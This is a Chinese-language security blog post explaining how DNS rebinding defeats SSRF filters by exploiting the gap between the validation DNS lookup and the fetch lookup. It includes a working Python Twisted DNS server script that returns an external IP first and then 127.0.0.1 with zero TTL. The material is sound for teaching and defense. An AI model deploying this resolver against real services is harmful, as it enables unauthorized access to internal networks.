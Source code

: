 ```yaml
---
title: DNS Rebinding Attack 绕过SSRF限制
tags: SSRF
---
```


### 0x00 一般SSRF过滤

SSRF过滤器的方式大致是以下几个步骤：

1.  获取到输入的URL，从该URL中提取Host
2.  对该Host进行DNS解析，获取到解析的IP
3.  检测该IP是否是合法的，比如是否是私有IP等
4.  如果IP检测为合法的，则进入curl的阶段发包

我们从DNS解析的角度看，该检测方式一共有两次，第一次是步骤2中对该host进行DNS解析，第二次是使用curl发包的时候进行解析。这两次DNS解析存在时间差，这就是利用的地方。

### 0x01 什么是TTL

时间差对应的DNS中的机制是`TTL`。
> `TTL`是英语Time-To-Live的简称，意思为一条域名解析记录在DNS服务器中的存留时间。当各地的DNS服务器接受到解析请求时，就会向域名指定的NS服务器发出解析请求从而获得解析记录；在获得这个记录之后，记录会在DNS服务器中保存一段时间，这段时间内如果再接到这个域名的解析请求，DNS服务器将不再向NS服务器发出请求，而是直接返回刚才获得的记录；而这个记录在DNS服务器上保留的时间，就是`TTL`值。

`TTL`表示DNS里面域名和IP绑定关系的Cache在DNS上存活的最长时间。即请求了域名与iP的关系后，请求方会缓存这个关系，缓存保持的时间就是`TTL`。而缓存失效后就会删除，这时候如果重新访问域名指定的IP的话会重新建立匹配关系及cache。

### 0x02 攻击原理

在上面的过滤流程中，其实只有第一次的DNS解析是是否合法的检查，第二次是发起具体请求的DNS解析，如果在DNS第二次curl时进行解析的时候，我们能够更换URL对应的IP，同时当然要设置够短的`TTL`，那么在`TTL`之后、缓存失效之后，重新访问此URL，就能获取被更换后的IP。如果我们把第一次解析的IP设为合法IP，就能绕过Host合法性检查了；把第二次解析的IP设为内网IP，就达到了SSRF访问内网的目的。

**所以结论就是：DNS Rebinding Attack的原理是：利用服务器两次解析同一域名的短暂间隙，更换域名背后的IP达到突破一些防护限制进行SSRF攻击。**

### 0x03 实现方式

Bendawang 的文章总结了三种实现方法： 

1. 特定域名实现
2. 简单粗暴的两条A记录
3.  自建DNS服务器

了解详情可以点击：[原文链接](http://www.bendawang.site/2017/05/31/关于DNS-rebinding的总结/)

下面我来介绍一下相对来说最好用的方法，就是自建DNS服务器。

首先设置一个域名的A记录，假如IP为`233.233.233.233`，那我们就需要在这台服务器上开启DNS服务，

```python
from twisted.internet import reactor, defer
from twisted.names import client, dns, error, server

record={}

class DynamicResolver(object):

    def _doDynamicResponse(self, query):
        name = query.name.name

        if name not in record or record[name]<1:
            ip="166.166.166.166"
        else:
            ip="127.0.0.1"

        if name not in record:
            record[name]=0
        record[name]+=1

        print name+" ===> "+ip

        answer = dns.RRHeader(
            name=name,
            type=dns.A,
            cls=dns.IN,
            ttl=0,
            payload=dns.Record_A(address=b'%s'%ip,ttl=0)
        )
        answers = [answer]
        authority = []
        additional = []
        return answers, authority, additional

    def query(self, query, timeout=None):
        return defer.succeed(self._doDynamicResponse(query))

def main():
    factory = server.DNSServerFactory(
        clients=[DynamicResolver(), client.Resolver(resolv='/etc/resolv.conf')]
    )

    protocol = dns.DNSDatagramProtocol(controller=factory)
    reactor.listenUDP(53, protocol)
    reactor.run()



if __name__ == '__main__':
    raise SystemExit(main())
```

这个脚本可以做到第一次请求时返回外网地址，也就是SSRF过滤中第一次安全检查可以成功通过，在第二次请求的时候，TTL为0，返回内网地址。（⚠️需要安装python的twisted库）

### 0x04 总结

在遇到特定情况的时候，这个方法还是值得一用的，本文并未实际搭建环境进行测试。实际情况需准备自己的域名进行搭建。

*最后，推荐一下Typora这个Markdown编辑器，很适合写作，再配合Picgo+Gitee作为图床写东西很方便*

<img src="https://gitee.com/evilashz/MyIMGs/raw/master/img/image-20200715145823789.png" alt="image-20200715145823789" style="zoom:67%;" />

------



### 参考

http://www.bendawang.site/2017/05/31/关于DNS-rebinding的总结

http://blog.leanote.com/post/snowming/e2c24cf057a4 

https://blog.csdn.net/u011721501/article/details/54667714